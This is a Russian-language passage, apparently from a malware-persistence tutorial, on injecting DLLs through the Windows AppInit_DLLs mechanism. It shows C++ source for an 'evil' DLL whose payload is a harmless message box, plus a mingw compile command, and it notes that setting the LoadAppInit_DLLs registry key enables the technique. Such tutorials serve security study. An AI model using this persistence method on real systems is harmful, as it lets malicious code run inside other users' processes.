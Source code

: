 Microsoft по умолчанию отключила загрузку DLL через AppInit (`LoadAppInit_DLLs`) для защиты пользователей Windows от вредоносных программ. Однако установка ключа реестра `LoadAppInit_DLLs` в значение `1` включит эту возможность.

### практический пример

Сначала создадим "вредоносную" DLL. Как обычно, используем простую логику всплывающего окна "meow-meow":    

```cpp
/*
evil.cpp
инъекция через AppInit_DLLs
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/16/malware-pers-5.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
  MessageBoxA(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    runMe();
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Скомпилируем её:

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```
